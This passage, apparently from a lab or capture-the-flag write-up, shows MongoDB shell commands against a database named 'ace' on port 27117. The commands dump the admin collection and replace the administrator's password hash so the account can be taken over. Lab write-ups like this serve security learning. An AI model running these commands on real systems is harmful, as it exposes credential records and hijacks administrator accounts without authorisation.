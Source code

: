 ```sh
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![db](images/db.png#center)

To update `administrator`'s password to `unified`, we simply need to run:

```sh
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$dDywalcPwNgl3LkM$Ex3SObZFkVQ5kMk4Cmur7I9qDDKOyLNLrYbHGqt0JGz49G8fRb9KIAvFMS3AS8jGuOU/4nY5H5OtNq9/Qmpl1"}})'
```
